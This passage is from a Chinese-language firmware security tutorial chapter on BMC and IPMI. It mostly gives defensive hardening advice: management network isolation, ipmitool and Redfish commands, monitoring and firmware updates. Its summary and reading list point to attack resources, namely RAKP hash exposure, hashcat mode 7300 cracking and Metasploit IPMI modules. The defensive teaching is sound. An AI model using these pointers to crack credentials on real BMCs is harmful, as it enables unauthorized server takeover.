| CVE-2023-34329 | 2023 | AMI MegaRAC BMC | HTTP 头注入绕过 Redfish 认证 |

注：AMI MegaRAC 系列 CVE（2022-2023 年 Eclypsium 披露）影响 AMI 向数十家服务器 OEM（华为、AMD Pensando、Nvidia BMC 等）提供的 BMC 固件，是典型的供应链漏洞扩散案例。

### 管理网络隔离：纵深防御架构

正确的数据中心 BMC 安全设计：



关键防御措施：

**网络层隔离**
- BMC 管理口接入物理隔离的管理 VLAN，不得与生产网络有任何路由
- 仅允许跳板机（Bastion）访问管理 VLAN，跳板机需多因素认证
- 禁用 BMC 共享 NIC 模式（Shared/Failover NIC），强制使用 Dedicated MGMT 口
- 将管理 VLAN 的 UDP 623 端口限制为白名单源 IP

**IPMI 配置加固**
```bash
# 禁用 Cipher Suite 0（在支持的固件版本上）
ipmitool channel setciphers ipmi 1 cipher_id 0 enabled 0

# 修改默认密码
ipmitool user set password 2 $(openssl rand -base64 20 | tr -d '/+=' | cut -c1-20)

# 禁用不使用的用户账户
ipmitool user disable 1   # 禁用 anonymous 账户

# 强制使用 RMCP+（加密）而不是旧版 RMCP
ipmitool lan set 1 auth ADMIN MD5,SHA1  # 最低限度

# 限制会话超时
ipmitool raw 0x06 0x3c 0x00 0x00 0x3c  # 60 秒无操作超时
```

**固件更新策略**
- 建立 BMC 固件版本清单和漏洞追踪机制
- 订阅服务器厂商（Dell iDRAC、HPE iLO、Supermicro IPMI、Lenovo IMM）的安全公告
- 在测试环境验证后批量推送固件更新（Redfish UpdateService + MultipartHttpPushUri）
- 对于无法及时更新的旧设备，在网络层额外限制

**Redfish 安全配置**
```bash
# 强制 TLS 1.2+（禁用 TLS 1.0/1.1）
# 大多数 BMC 的 Redfish TLS 设置在 Web UI 中配置

# 使用 Redfish 替换 IPMI（在支持的平台上完全禁用 IPMI over LAN）
curl -k -X PATCH -u admin:pass \
  -H "Content-Type: application/json" \
  -d '{"IPMI":{"ProtocolEnabled":false}}' \
  https://bmc/redfish/v1/Managers/1/NetworkProtocol

# 定期审计账户
curl -k -u admin:pass https://bmc/redfish/v1/AccountService/Accounts/ | \
  jq '.Members[]["@odata.id"]'
```

**监控与日志**
- 将 BMC SEL 日志实时导出到 SIEM（通过 SNMP Trap 或 Redfish Event Subscription）
- 监控 UDP 623 端口的非白名单源 IP 访问尝试
- 监控 BMC Web UI 登录失败告警
- 使用 Redfish 周期性核对固件版本（防止固件被篡改）

**与主机 BIOS 的信任边界**

BMC 与主机 UEFI 的关系需要谨慎设计：
- 部分平台允许 BMC 写主机 BIOS SPI Flash（用于远程 BIOS 更新），这是一个高权限通道
- Intel Boot Guard 可防止未经签名的 BIOS 启动，但无法防止 BMC 在运行时修改主机内存
- Intel TXT（Trusted Execution Technology）和 AMD SEV 等技术提供了主机侧的额外隔离，但与 BMC 信任链正交
- 理想架构：BMC 固件更新通道与主机 BIOS 更新通道通过权限分离、代码签名双重保护

### 云环境与虚拟化中的 BMC 等价物

在公有云（AWS/GCP/Azure）中，用户无法直接接触物理 BMC，但云厂商内部使用等价技术：
- AWS Nitro：专用安全芯片取代传统 BMC，隔离程度更高
- Google Titan：自研安全处理器，实现物理级别的 RoT（Root of Trust）
- Azure Cerberus：Microsoft 自研 RoT 芯片

这些系统不公开 IPMI/Redfish 接口，但其固件安全研究同样重要——Google Project Zero 等团队已公开对 Titan 的研究。

## 小结

BMC 与 IPMI 代表了服务器嵌入式安全中最具战略价值的攻击面：独立于主机 CPU 和 OS 的运行环境，使其成为攻击者眼中的"永久立足点"。本章覆盖的核心要点：

1. **架构基础**：ASPEED AST2xxx SoC（ARM926/Cortex-A7）是市场主流，OpenBMC + phosphor 中间件 + D-Bus + bmcweb 构成现代 BMC 软件栈
2. **协议理解**：IPMI 2.0 的 RMCP+/RAKP 认证流程存在结构性缺陷（RAKP 哈希提前暴露）；Cipher Suite 0 是实现层的配置漏洞；Redfish 提供了更安全的现代替代
3. **漏洞谱系**：从 2013 年 Cipher 0 到 2019 年 Pantsdown/USBAnywhere，再到 2022 年 AMI MegaRAC 供应链漏洞，BMC 安全研究持续产出高危发现
4. **固件逆向**：SPI Flash 物理/逻辑提取 → binwalk/squashfs 解包 → IDA/Ghidra 分析 ARM 二进制 → QEMU AST2600 仿真调试
5. **防御实践**：管理网络物理隔离是最有效的单一措施；禁用 Cipher 0、修改默认凭据、定期更新固件是必要的配置加固；向 Redfish + TLS 迁移是长期方向

掌握 BMC 安全意味着理解数据中心基础设施最底层的信任链——这是现代云安全和企业安全评估中不可或缺的一环。

## 相关阅读

- Dan Farmer，《IPMI: Freight Train to Hell》，2013（BMC/IPMI 漏洞系统性披露的开创性研究）
- Eclypsium，《Pantsdown: Baseboard Management Controller (BMC) Vulnerabilities》，2019（CVE-2019-6260 详细技术报告）
- Eclypsium，《USBAnywhere: BMC Virtual USB》，2019（Supermicro 虚拟媒体漏洞）
- Eclypsium，《BMC&C: BMC Vulnerabilities in AMI MegaRAC》，2022-2023（供应链漏洞披露）
- DMTF，《Redfish Specification DSP0266》（官方 Redfish API 规范）
- IPMI Forum，《Intelligent Platform Management Interface Specification v2.0》（IPMI 2.0 完整规范）
- OpenBMC GitHub，`github.com/openbmc/openbmc`（开源 BMC 固件源码）
- ASPEED Technology，《AST2600 Datasheet》（SoC 硬件参考手册，需 NDA，但社区有逆向文档）
- hashcat，Mode 7300 文档（IPMI 2.0 RAKP HMAC-SHA1 破解）
- Metasploit，`modules/auxiliary/scanner/ipmi/`（IPMI 扫描与漏洞利用模块集）
- CISA，《Security Guidance for Out-of-Band Management Systems》（联邦级别 BMC 安全指南）

---

[[00.固件与IoT嵌入式逆向总览|⬆ 系列总览]] | [[23.固件仿真进阶Qiling与HALucinator|← 上一章]] | [[25.固件供应链与SBOM分析|→ 下一章]]
